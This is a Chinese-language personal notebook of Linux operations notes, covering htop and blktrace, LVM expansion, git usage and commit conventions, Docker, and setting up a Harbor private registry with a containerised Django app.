



# centos7

# ops_运维

- 技能图，


1. 图片来源，[这里](http://www.brendangregg.com/linuxperf.html)，  

## 命令解释

##### htop

- 界面是酱婶儿滴，



1. 按h 查看帮助信息
2. 按F2， 可以配置界面中的显示信息



3. 按F5查看进程树，
4. 按F6 进行按需排序
5. 按u 显示指定用户的进程
6. F7调大优先级，F8调小优先级（增大nice值），这就涉及到了linux进程优先级
   1. 越大的nice值意味着优先级越低。相比于那些高nice值（低优先级）的进程来说，低nice值（高优先级）的进程可以获得更多的处理器时间
   2. 总结就是，会叫的孩子有奶吃，越是不nice的进程越有CPU优先使用权，也就是优先级高咯

6. 空格键，用于标记选中的进程，实现对多个进程同时操作

##### strace

##### blktrace

- blktrace是一个用户态的工具，提供I/O子系统上时间如何消耗的详细信息，从中可分析是IO调度慢还是硬件响应慢等。

1. `blktrace -w 120 -d /dev/sda`  
2. `blkparse -i sda -d blkparse.out`  将分析结果输出到屏幕，并且将分析结果的二进制数据输出到blkparse.out文件
3. `btt -i blkparse.out`  btt查看IO的整体情况，-i指定文件名

- 可参考，[华为的鲲鹏性能优化](https://support.huaweicloud.com/tuningtip-kunpenggrf/kunpengtuning_12_0036.html)  


##### bcc

- 使用 `/usr/share/bcc/tools/execsnoop`  来追踪你的代码。

1. 打开另一个端口运行命令，在 /usr/share/bcc/tools/execsnoop  下面就会有相应的输出。
2. 通过exec() 系统调用来工作，exec()通常用于在新进程中加载不同的程序代码

## lvm扩容

- 虚拟机使用lvm扩容，基本步骤如下：

1. 新添加一块磁盘，大小40G，
   1. `lsblk`,  
2. 对新磁盘分区
   1. `fdisk /dev/sdb`，  注意type，改成lvm
   2. partprobe使生效
   3. partx -s /dev/vda  查看分区情况
3. pvcreate， 创建pv physical volume
   1. `pvcreate /dev/sdb` 
   2.  `pvs`  
   3. `vgextend centos /dev/sdb`
4. 将新创建的pv，添加到vg内；lvcreate  创建lv logical volume
   1. **如若没有，需要创建centos-data**
      1. `mkfs.ext4 /dev/centos_data/newvdb`          注意格式化，否则挂载不上，提示mount: /dev/mapper/centos_home-newvdb 写保护，将以只读方式挂载、、mount: 未知的文件系统类型“(null)”
      2. `vgcreate centos-data /dev/vdb`
      3. `lvcreate -l 100%FREE -n newsdb centos` 
         这里，倒不必用 +100%FREE
      4.  `lvs`  `lvdisplay`
5. 创建挂载点，挂载
   1. `mkdir -p /newsdb`,  `mount /dev/mapper/centos-newsdb /newsdb`  
   2. 如果挂载点为已存在的文件夹，那该文件夹内的内容就会没了，因为/dev/mapper/centos-newsdb  毕竟是空的。umount 掉即可
6. 要扩容 / 根，lvextend 将空间100% 加入到root逻辑卷内
   1. 在上面第4步骤，不要创建新卷，**而是直接  vgextend**，还有  `lvextend -l +100%FREE /dev/centos/root`，  就可以看到LV Size 成功增加了
      注意： 这里一定要用 +100%FREE 不然扩充后，容量会有问题的
   2. `xfs_growfs /dev/centos/root`，  重新识别下分区大小，
   3. `df -hT`  就可以看到效果了
   4. <font color=orange>成功对根目录扩容</font>
   参考，[一次lvm扩容记录](http://blog.wuxu92.com/lvm-extend-record/) 

- 新增swap分区，

1， 前提是，一块新的磁盘，挂载目录下并无数据。如果有数据，也可以先拷贝出来。
2， 将磁盘分区。举例子：一块8G，作swap分区；一块剩余所有容量，作数据盘，mkfs.ext4 
   fuser -m -v /home    查看使用 /home 目录的进程，并杀死pid，然后卸载掉
   fdisk -l /dev/vdb，新增后大致和下面类似。

​	1. 两者都是primary 分区，swap 分区是82，LinuxLVM是8e

```
Disk /dev/vdb: 536.9 GB, 536870912000 bytes, 1048576000 sectors
Units = sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disk label type: dos
Disk identifier: 0x7b35c36f

   Device Boot      Start         End      Blocks   Id  System
/dev/vdb1            2048    16779263     8388608   82  Linux swap / Solaris
/dev/vdb2        16779264  1048575999   515898368   8e  Linux LVM
```

2. partprobe 使分区生效
3. lsblk 查看下分区后的是否正常。 mkswap /dev/vdb1  swapon /dev/vdb1
4. mkfs.ext4 /dev/vdb2  blkid  最后将挂载信息写入/etc/fstab 文件

---


# git:chestnut:  

##  常用操作

- `git status `  用于显示，工作目录和暂存区的状态。

1. 可以看到哪些修改被暂存到了，哪些没有，哪些文件没有被git tracked 到。
2. 不显示，已经commit到项目历史中去的信息。看项目历史的信息用`git log`  

- `git diff `  ，用来找当前工作目录和上次提交与本地索引间的差异（最简单快捷）

1. `git diff --stat `  ，统计一下哪些文件被改动，有多少行被改动，就可以使用stat 参数。而不是看每个文件的详细差别
2. `git diff --cached`  ，查看在下次提交时要提交的内容
3. `git diff dev`  ，查看当前的工作目录与另外一个分支的差别
   1. 也可以加上路径限定符，来只比较某一个文件或目录。	`git diff HEAD -- ./lib`  

- `git config --global user.name "liuzel01"`  

1. `git config --global user.email "liuzelin01@outlook.com"`  
   1. `git config -l`  
2. `git init`  
3. `git add .`  `git add ./xxx/`  
4. `git add -f <file>`  `git checkout --<file>`  撤销命令，这是相对的
5. `git commit -m "xxx"`  `git reset --hard + 版本号 `  ，这是相对的
6. `git remote add origin https://你的仓库地址.git`  
7. `git push -u origin master`  `git push -u origin dev`  
8. `git status`  `git diff`  `git reflog`  
9. `git rm`  
10. `git branch`  `git branch <新分支名字>`  `git checkout <分支名字>`  `git merge <分支名字>`  
11. `git merge --no-ff <分支名字>`  合并时禁用fast forward模式
12. `git branch -d <分支名字>`  删除分支，可能失败，git会保护未被合并的分支`git branch -D <分支名字>`  强行删除，丢弃没有被合并的分支
13. `git log --graph`  查看分支合并图
14. `git stash`  `git stash list`  `git stash apply`  `git stash drop`  `git stash pop`  
15. `git remote`  `git remote -v`  
16. `git rebase`  把分叉的提交历史显示成一条直线，看上去更直观
17. `git tag`  `git tag <标签名字>`  `git tag <标签名字> <版本号>`  
18. `git show <标签名字>`  `git tag -a <标签名字> -m "<标签说明>"`  
19. `git tad -d <标签名字>`  
20. `git push origin <标签名字>`  
21. `git push origin --tags`  <font color=orange>大橘为重</font>  
22. `git push origin :refs/tags/<标签名字>`  
23. `git config --global color .ui true`  
24. `git check-ignore -v <file>`  

---

- 本地仓库 = 工作区 + 版本区。

1. 工作区，即磁盘上的文件集合；版本区（版本库），即.git 文件；

2. 版本区 = 暂存区(stage) + 分支(master) + 指针(Head) 

---

- `git init`  在本地区域创建一个 .git 文件，版本区建立

1. `git add .`  表示把工作区的所有文件全部提交到版本区的暂存区，`git add ./xxx/`  逐条添加到暂存区
2. `git commit -m "xxx"`  把暂存区的所有文件提交到仓库区，暂存区空荡荡
3. `git remote add origin https://你的仓库地址.git`  把本地与远程仓库连接起来，只需连接一次，怪不得不常用
4. `git push -u origin master `  把仓库区的文件提交到远程仓库的master 里
   1. 不熟练，建议去远程仓库上刷新，看下效果
5. 提交后，立即查看工作区，git status 会显示类似，nothing to commit, working tree clean 

---

- 一般，**我都是用lazygit**, 在vscode上也能用，可视化，挺方便。~~当然，vscode上也能点点点~~  
- 下面的，理论大于实践

### 版本的回溯与前进

- `git rest --hard + 版本号`  来回溯，版本号用 `git log `  来查看
- **可以当成git 将这些版本串成一条时间线**

1. 回溯之后，我想前进到最近的版本应如何？，`git reset --hard + 版本号`  来作，太艹了:joy:  反复横跳
2. `git reflog`  ，可以帮你找到你的版本号，防止弄丢了，然后又可以 `git reset `  来回穿梭了

######  版本控制

- 版本控制，revision control 是一种在开发的过程中，用于管理我们对文件/目录或是工程等内容的修改历史，方便查看更改历史记录，备份以便恢复以前的版本，的软件工程技术
- 简单说，就是用于管理，多人协同开发项目的技术

###### git 与 svn

- SVN是集中式版本控制系统，版本库是集中放在中央服务器的，而工作的时候，用的都是自己的电脑。所以，首先要从中央服务器获取最新的版本，然后工作。工作完成后，需要把自己做完的部分，推送到中央服务器。集中式版本控制系统，必须联网才能工作，对网络带宽要求较高
- git是分布式版本控制系统，没有中央服务器。每个人的PC就是一个完整的版本库，工作时无需联网。协同方式：A在PC上改了文件，B在自己PC上也改了同一份文件。这时，只需要把各自的修改推送给对方，就能看到对方的修改了。git能直接看到更新了哪些代码和文件。
- git是目前最先进的，分布式版本控制系统

###### 撤销

###### 删除

- 如若`git add . `  一个文件到暂存区，然后在工作区又把文件删除了，git会知道你删除了文件，要把版本库里的文件删除，需要

1. `git rm`  并且 `git commit -m "xxx"`  

- 如若误删了工作区的文件，要用到撤销命令，`git checkout --<file>`  
- 说明，撤销命令，其实就是用版本库里的版本替换工作区的版本，无论工作区是修改还是删除，都可以“一键还原”  

### 分支

- 在不使用其他分支时，每次 `git push -u origin master`  就是将时间轴往前推、
  - 这个应该不难理解，图我就不贴了

1. `git branch new01`  `git checkout new01`  创建新分支new01,切换到新分支
   1. `git branch`  查看当前所有分支，带* 的就是当前分支
2. 用new01提交，`git add ./xxx/`  或是 `git add -A` ，`git commit -m "xxx"`  
   1. -A, --all, --no-ignore-removal  
3. `git checkout master `  切换回master,
4. `git merge new01`  合并分支，这个时候就能看到new01 刚刚commit的信息了
5. `git branch -d new01`  删除new01 分支

###### 解决合并分支问题

- 

###### 分支管理

###### BUG分支

###### 删除分支

###### 多人协作

- 多人协作工作模式，通常为：

1. 首先，试图用 `git push origin new01`  推送自己的修改
2. 如若推送失败，则因为远程分支，比你的本地要新，需要先 `git pull`  试图合并
3. 如若合并有冲突，则解决冲突，并在本地提交
4. 没有冲突，或是解决掉冲突后，再进行 `git push origin new01`  推送就能成功
5. 如若 `git pull`  提示 `no tracking information`  ，说明本地分支，和远程分支的链接关系没创建，命令
   1. `git branch --set-upstream-to new01 origin/new01`  

###### rebase

### 标签

### 自定义git

### FAQ

- 参考链接，[git笔记](https://juejin.cn/post/6844903877138087950#heading-4)， 

##  使用原则

1. 每次commit只做一件事。 linux中心原则是，所有更改都必须分解为小步骤进行。针对某一项单一任务的更改

2. commit不能破坏构建。 不仅应该将所有更改分解为尽可能小的变量（上一条），而且不能破坏内核（就内核维护而言）。 即每个步骤都必须完全起作用，并且不引起退化。

3. 所有代码都是二等分的。 二等分是一种操作，它使开发者可以找到所有发生错误的确切时间点。 只有在遵守上面的规则的情况下，才能很好起作用。开发者可以在十几次编译/测试中，从成千上万的可能 commit 中分离出导致问题出现的 commit 。Git 甚至可以通过 git bisect 功能帮助自动化该过程

4. 永远不要rebase 公共分支。 linux项目工作流程不允许这样，因为rebase这些公共分支后，已重新基准化的commit 将不再与 基于原存储库中的相同 commit 匹配

​    在树的层次结构中，不是叶子的公共主干部分 不能重新设置基准，否则将会破坏层次结构中的下游分支。

5. git正确合并。

6. 保留定义明确的commit 日志。 每个commit都必须是独立的， 这也应该包括与commit相应的日志。内核贡献者（就内核维护而言） 必须在更改的commit 日志中做出说明，让所有人了解与正在进行的更改相关的所有内容

   git blame来查看。编写良好的代码更改日志可以帮助确定是否可以删除改代码或如何对其进行修改

7. 持续测试和集成。 linux-next是一个公共仓库，任何人都可以测试它。

### 规范使用git commit

```
type(必须)
    用于说明git commit的类别，只允许使用下面的标识。
    feat：新功能（feature）。
    fix/to：修复bug，可以是QA发现的BUG，也可以是研发自己发现的BUG。
        fix：产生diff并自动修复此问题。适合于一次提交直接修复问题
        to：只产生diff不自动修复此问题。适合于多次提交。最终修复问题提交时使用fix
    docs：文档（documentation）。
    style：格式（不影响代码运行的变动）。
    
    refactor：重构（即不是新增功能，也不是修改bug的代码变动）。
    perf：优化相关，比如提升性能、体验。
    test：增加测试。
    chore：构建过程或辅助工具的变动。
    revert：回滚到上一个版本。
    merge：代码合并。
    sync：同步主线或分支的Bug。
```

1. commit message 格式： <type>(<scope>): <subject>

2. 下面举几个例子： 按照使用频率排列

```
feat： 创建项目
    feat： 添加数据页面xxxxxx
style： 修改文本格式
test： 用于xxxx相关测试
perf： 增加用户交互选项
    perf： 优化判断语句
fix：  xxx详情页面，展示不全，滚动条不能xxxx
docs： 新增xxxx文档
refactor： 修改网站名字为xxxx网
```


### faq

- 修改之前已commit 的某次注释信息，

git rebase -i HEAD~3                显示倒数三次注释。要修改哪次注释，就将前面的pick改成edit，

git commit --amend                 按照terminal 给出的提示，修改你要修改的注释，然后保存退出。接着回到本地最新的版本，

git rebase --continue                会提示， Successfully rebased and updated refs/heads/master.

git add -A（如果你在这期间， 对文件有更改）      所以说，你在修改注释的时候，就不要改动文件了

---

- 拉取指定分支的代码，

`git clone -b meeting_standard_v3.0 http://192.168.xx.xx:8000/meeting/meeting.git`

`git remote -v ` 查看仓库的origin

`git remote rename origin old-origin`

`git remote rm origin`

# docker

1. 普通用户在使用时，添加进docker组即可，不需每次都输入密码，才能正常用docker命令

- `sudo usermod -G docker -a xiaobai`   `id xiaobai`   能看到用户小白的主组，以及附加组


- 更改后，需要切换或退出当前用户再重新登入，  `su - xiaobai`  ，才能成功

1. `docker images`   进行测试

2. 其中，usermod  命令，help中明确说明了，-g 以及-G的含义
   1. `-g, --gid GROUP               force use GROUP as new primary group`
   2. `-G, --groups GROUPS           new list of supplementary GROUPS`  新的补充清单

3. 查看容器的运行时日志，`docker logs --tail=100 -f process_exporter`   表示输出最近的若干日志
   `man docker-logs`

4. dockerfile里用到的基础镜像，主要来自dockerhub官方人员制作维护的。如若要自己制作，可以参考，[create a base image](https://docs.docker.com/develop/develop-images/baseimages/),

   1. 这样意义不大，dockerhub上的基本都能找到，alpine 大小仅5M

5. --restart=unless-stopped,在容器退出时总是重启容器，但是不考虑在Docker守护进程启动时就已经停止了的容器

   1. unless-stopped 和 always 基本一样，只有一个场景 unless-stopped有点特殊：
      1. 如果容器正常stopped，然后机器重启或docker服务重启，这种情况下容器将不会被restart

---

- 在容器内使用systemctl，启动后台服务

1. docker 设计理念是在容器内不运行后台服务，容器本身就是宿主机上的一个独立的主进程，也可理解为是容器里运行服务的应用进程
   1. 因此，容器设计原则为，一个容器里运行一个前台服务
   2. 然后，其实可以通过不以root运行、不以特权模式运行来达到某些需求，实现更高容器安全
2. `docker run -itd --name lzl_c7 --privileged=true  -v /sys/fs/cgroup:/sys/fs/cgroup:ro 192.168.226.134/ops/lzl_c7sshd /sbin/init`  无需挂载cgroup 也是可以的

---

- 在停止docker 后，提示： Warning: Stopping docker.service, but it can still be activated by : docker.socket 

1. sudo systemctl stop docker.socket  再执行， `docker ps` 就是正常的返回了

## 技巧

###### 将docker镜像体积减少99%！！！！！，有待补充

- 使用多阶段构建

1. 多阶构建，[可参考官方](https://docs.docker.com/develop/develop-images/multistage-build/)，

- 使用基础镜像

1. busybox，alpine
   1. 不过，在使用中，需要下载相对应的库，[ustc的](https://mirrors.ustc.edu.cn/alpine/v3.9/main/)，
      1. 在dockerfile，填写类似内容，RUN echo "https://mirror.tuna.tsinghua.edu.cn/alpine/v3.8/main" > /etc/apk/repositories
      2. 大多数linux发行版都是基于glibc的。在编译应用程序时，大部分都是针对特定libc进行编译的。如若要将他们与另一个libc一起使用，则必须重新编译他们。也就是说，基于alpine 构建的容器，可能会导致非预期的行为，因为标准C库是不一样的
   2. 还可以，使用类似golang:alpine 的镜像
2. 使用busybox:glibc 作为基础镜像。
   1. 包含glibc 和各种调试工具，适合来运行使用动态链接的程序
   2. sratch作为base image，调试起来会非常麻烦。虽然比上面两种少了那么几MB
3. 除了alpine，谷歌还提供[distroless](https://github.com/GoogleContainerTools/distroless)，如若在生产环境中运行并且更关心安全性，那么此选择更合适

---

- 镜像体积问题，一般在部署阶段（生产环境），要尽量小，秉承多快好省

1. 后续可以研究下

- dev环境，还是要让人快速上手使用为好


## 本地用数据库

1. DBeaver community 数据库连接工具，数据库地址172.17.0.1:3306 

- 其实也就是映射到本地端口的

2.`docker run -d -p 4406:3306 --name mysql -v /opt/mysql/mysql-data/:/var/lib/mysql -e MYSQL_DATABASE=tiny_wish -e MYSQL_ROOT_PASSWORD=123456 mysql:5.7-utf8`  

## 使用harbor 搭建私仓

### 常用命令

- harbor的生命周期管理，可以使用docker-compose 来管理，需要在harbor目录中执行
  - 当然，可以写成systemd服务来管理控制
- docker-compose，可以轻松、高效的管理容器，它是一个用于定义和运行多容器docker的应用程序工具。我说怎么有点熟悉。
  - docker compose  是单机管理docker的。k8s是多节点管理docker。虽然还有docker swarm也是多节点，不过基本已弃用

1. 启动：`docker-compose start`   
   1. `docker-compose up -d`  Create and start containers
2. 停止：`docker-compose stop`  
3. 移除：`docker-compose rm`  会保留相关镜像文件
   1. `rm -r /data/database`  `rm -r /data/registry`  删除数据
4. `docker-compose ps`  查看容器状态
5. `docker-compose down`  会删除容器，Stop and remove containers, networks, images, and volumes
   1. 删除后，`docker-compose ps `  你就看不到任何容器了。重新  `./install.sh`  重新安，

6. 如若说你pull下来的镜像，标签为none，那你可以在pull那条命令里看到，该容器的ID信息，
   1. 并且，`docker rmi 192.168.226.5/ops/centos7@sha256:c2f1d5a9c0a81350fa0ad7e1eee99e379d75fe53823d44b5469eb2eb6092c941`  

7. 给pull下来的镜像打标签，
   1. `docker tag 192.168.226.5/ops/lzl_c7sshd@sha256:c2f1d5a9c0a81350fa0ad7e1eee99e379d75fe53823d44b5469eb2eb6092c941  xxxlzl_c7sshd:lzlzlzlzl`  

---

#### 排查

1. 查看日志，`docker-compose logs -f log`  
2. 授权，`chown -R root: /data`  `chown -R root: /var/log/harbor`  具体的路径在docker-compose.yml  文件中有


### 搭建

###### SSL证书创建

- SSL证书创建步骤，:chestnut:  

```bash
##################### 创建CA私钥
openssl genrsa -out ca.key 2048
##################### 制作CA公钥
openssl req -new -x509 -days 36500 -key ca.key -out ca.crt -subj "/C=CN/ST=BJ/L=BeiJing/O=BTC/OU=MOST/CN=liuzel01/emailAddress=ca@sipingsoft.com"
##################### 创建私钥
openssl genrsa -out httpd.key 1024
##################### 生成签发请求 
openssl req -new -key httpd.key -out httpd.csr -subj "/C=CN/ST=BJ/L=BeiJing/O=BTC/OU=OPS/CN=liuzel01/emailAddress=liuzel01@sipingsoft.com"
##################### 使用CA证书进行签发
openssl x509 -req -sha256 -in httpd.csr -CA ca.crt -CAkey ca.key -CAcreateserial -days 36500 -out httpd.crt
##################### 验证签发证书是否有效
openssl verify -CAfile ca.crt httpd.crt
##################### 最后，会显示： httpd.crt: OK
```

- 自签名证书(私人证书)不被浏览器信任，适合内部或者测试使用
- 将httpd.key httpd.crt 放到 /etc/harbor/cert 目录下，

###### 安装docker-ce

1.

```bash
[root@master harbor]# docker --version
Docker version 19.03.13, build 4484c46d9d
```

###### 安装docker-compose

1. `wget https://github.com/docker/compose/releases/download/1.27.4/docker-compose-Linux-x86_64`  
2. `mv docker-compose-Linux-x86_64 /usr/bin/docker-compose`   
3. `chmod +x /usr/bin/docker-compose`  授权，
4. `docker-compose version`  查看打印出来的信息，能看到版本就ok的

- 或是直接，`yay -S docker-compose`  `which docker-compose`  

1. 能看到docker-compose是在 /usr/bin 目录下的，不要照搬网上的资料。所以猜测，上面直接下载软件包的方式其路径应该也是这里

```bash
[root@myarch liuzel01]# docker-compose version
docker-compose version 1.27.4, build unknown
docker-py version: 4.3.1
CPython version: 3.8.6
OpenSSL version: OpenSSL 1.1.1h  22 Sep 2020
```

###### 安装harbor私仓

1. 下载地址，[官网](https://github.com/goharbor/harbor/releases/download/v2.0.4-rc1/harbor-offline-installer-v2.0.4-rc1.tgz)， 

---

- 浏览器访问，https://192.168.226.134/harbor， 进入到页面内，账户密码在harbor.yml 中有的，harbor_admin_password

1. 在之前，还要配置一下daemon.json  内容如下，添加上ip:5000 harbor地址。
   1. 这是在客户端添加的，客户端http设置，通过此配置来取消docker默认不允许非https方式推送镜像 的限制。

```json
{
  "registry-mirrors":["https://3oxbtpll.mirror.aliyuncs.com"],
  "insecure-registries":[
    "192.168.226.134:5000","192.168.226.134"
  ],
  "live-restore":true
}
```

- 将harbor加入到systemd 服务中去，/usr/lib/systemd/system/docker_harbor.service

```bash
[Unit]
Description=Harbor
After=docker.service systemd-networkd.service systemd-resolved.service
Requires=docker.service
Documentation=http://github.com/vmware/harbor

[Service]
Type=simple
Restart=on-failure
RestartSec=5
ExecStart=/usr/bin/docker-compose -f /opt/harbor/docker-compose.yml up
ExecStop=/usr/bin/docker-compose -f opt/harbor/docker-compose.yml down

[Install]
WantedBy=multi-user.target
```

###### harbor使用


- 在docker push 之前，先登录上harbor，`docker login 192.168.226.134:5000 -uadmin`  ip就是你私仓的地址
  - 用户名/密码，需联系管理员在harbor 网页端后台进行创建，并将人员添加进对应的项目中去

- 而对于镜像仓库，不需创建，直接命令中tag 就好


1. 上传本地镜像到私仓，方法其实在harbor 端也有注解，
   1. `docker tag liuzel01/lzl_c7sshd:latest 192.168.226.134/ops/lzl_c7sshd:lzl_21`  
   2. `docker push 192.168.226.134/ops/lzl_c7sshd:lzl_21`  
      1. docker tag myblog 192.168.226.134/ops/lzl_django:lzl_django
      2. docker push 192.168.226.134/ops/lzl_django:lzl_django
   3. `docker tag SOURCE_IMAGE[:TAG] 192.168.226.5/ops/REPOSITORY[:TAG]`  网页端貌似没说加端口
      1. 因为上面已添加过，insecure-registrie，所以可行

- 注意harbor的架构。可以看到，好的tag能让你的镜像一目了然


- 从私仓push镜像，演示

1. `docker pull 192.168.226.134/ops/lzl_c7sshd:hostname-centos7`  或是 `docker pull 192.168.226.134/ops/lzl_c7sshd:V0.2`  
2. `docker pull 192.168.226.134/ops/lzl_c7sshd@sha256:4048334c3f3a455d746179aaf9f67c27e48bad642876d7456a191a69955595bd`  当然可以从harbor 复制命令过来执行
   1. lzl_c7sshd  是镜像仓库，hostname-centos7 是标签，这时候再回去看当时上传的操作，就很清晰了
3. 需要注意的是。当你将本地镜像push到私仓，而私仓已经有过了只是镜像的tag 不同，在harbor  页面就会给原有镜像添加你的tag
   1. 在你push的时候，会提示  `4cd45d454a89: Layer already exists`    就应该意识到这点

---

- 对于创建多个仓库，演示


- 参考，[harbor介绍与企业级私有docker镜像仓库搭建](https://cloud.tencent.com/developer/article/1718372)，  
- 参考，[使用harbor搭建docker私仓](https://www.jianshu.com/p/e896a2c7b975)，  [docker compose详解](https://www.jianshu.com/p/658911a8cff3)，  

1. [vmware harbor：基于docker distribution的企业级registry](https://segmentfault.com/a/1190000007705296)，  

---

### 高可用

- 市面上，所面临的问题

1. 中心化单实例，没有高可用
2. harbor数据存储在mysql容器中，无法保证其可靠性
3. 业务镜像数据存储在单机硬盘中，存在数据丢失的风险
4. ~~如若生产环境，在不同的城市区域有多个业务机房，存在跨机房，拉取镜像的请求~~

---

- 在提高系统高可用（High Availability），一般从这几个方面来设计：

1. **计算高可用**  
2. **存储高可用**  
3. 网络高可用
4. 其他方面

- 但是这个貌似要用到k8s,
- 方案1：独立的3个harbor实例+mysql Galera集群+镜像共享存储

> 3 个独立的 Harbor 实例，通过一个 Load Balancer 来做流量转发。同时采用了共享会话方式，把会话的信息保存在MySQL数据库中，这样无论哪个实例响应用户的请求，都不会丢失会话；
>
> 3 个 Harbor 的 Docker Registry 共享一个存放镜像数据的存储，例如阿里云 OSS、GlusterFS、NFS 等，可参考Harbor或Docker Distribution的文档配置；MySQL 由于不能共享存储，采用了 Galera 集群，这是一个多主的 MySQL 集群，每个节点均可读可写，同时支持同步复制数据，保证了高可用

- mysql可搭建双主热备，向外提供虚拟IP，通过vip来访问

- 方案2：独立的harbor子模块+mysql Galera集群+镜像共享存储

> 独立的 Harbor 子模块之间，通过负载均衡来通信，MySQL Galera 集群和镜像共享存储和方案 1 基本一样。
>
> 这个方案的优点是各个子模块相互独立，每个子模块都有 2 个备份，通过负载均衡实现高可用.
>
> 这里使用 Kubernetes Service 非常容易实现 LB，~~下面的章节会展开来说。~~  

---

- 参考，[解密360容器云平台的harbor高可用方案](https://xie.infoq.cn/article/e800dab85104da9ab7a223d7f)，[用harbor和k8s构建高可用企业级镜像仓库](https://mp.weixin.qq.com/s?__biz=MzkzMzE2ODg1MQ==&mid=2247489421&idx=1&sn=fe7c126dccaeda6a9c42d73e7e372722&source=41#wechat_redirect)，  

### FAQ

- ~~在停止后，`docker-compose stop`，  就很难启动起来，总会报错。。。。~~
  - ~~目前，是删除所有harbor相关镜像，再重新`./install.sh`  安装~~
  - ~~需要注意的是，在更改 harbor.yml后，建议是停止harbor,`docker-compose down`  启动使用，`./install.sh`~~

1. 不过，在使用  `systemctl start docker_harbor`  可以解决上面问题

---

## django应用容器化实践

- `vim Dockerfile`  

```dockerfile
FROM centos:centos7.5.1804
LABEL maintainer="inspur_lyx@hotmail.com"
ENV LANG en_US.UTF-8
ENV LC_ALL en_US.UTF-8
# RUN 执行以下命令
RUN curl -so /etc/yum.repos.d/Centos-7.repo http://mirrors.aliyun.com/repo/Centos-7.repo
RUN yum install -y  python36 python3-devel gcc pcre-devel zlib-devel make net-tools
COPY nginx-1.13.7.tar.gz  /opt
#安装nginx
RUN tar -zxf /opt/nginx-1.13.7.tar.gz -C /opt  && cd /opt/nginx-1.13.7 && ./configure --prefix=/usr/local/nginx && make && make install && ln -s /usr/local/nginx/sbin/nginx /usr/bin/nginx
```

- `git clone https://gitee.com/agagin/python-demo.git`  

1. `mv python-demo myblog`  

2. `wget http://nginx.org/download/nginx-1.13.7.tar.gz`  

3. 基本准备工作就是这些

- `docker build . -t myblog -f Dockerfile`  
- `docker tag myblog 192.168.226.134/ops/lzl_django:lzl_django`  
- `docker push 192.168.226.134/ops/lzl_django:lzl_django`  

4. 然后，根据上传到私仓的 lzl_django 里的镜像来进行下一步

- `vim Dockerfile_optimized`  

```dockerfile
FROM 192.168.226.134/ops/lzl_django@sha256:547b84f6b26af61004657c43c9045917a87a963ed7927476b315db4aff2db941
LABEL maintainer="liuzel01@hotmail.com"
#工作目录
WORKDIR /opt/myblog
#拷贝文件至工作目录
COPY ./myblog .
RUN cp myblog.conf /usr/local/nginx/conf/myblog.conf
COPY ./myblog/run.sh .
#安装依赖的插件
RUN pip3 install -i http://mirrors.aliyun.com/pypi/simple/ --trusted-host mirrors.aliyun.com -r requirements.txt
RUN chmod +x run.sh && rm -rf ~/.cache/pip
#EXPOSE 映射端口
EXPOSE 8002
#容器启动时执行命令
CMD ["./run.sh"]
```

5. 创建数据库

- `docker run -d -p 3306:3306 --name mysql  -v /opt/mysql/mysql-data/:/var/lib/mysql -e MYSQL_DATABASE=myblog -e MYSQL_ROOT_PASSWORD=123456 mysql:5.7`  
- 进入容器，登录数据库查看是否有 myblog

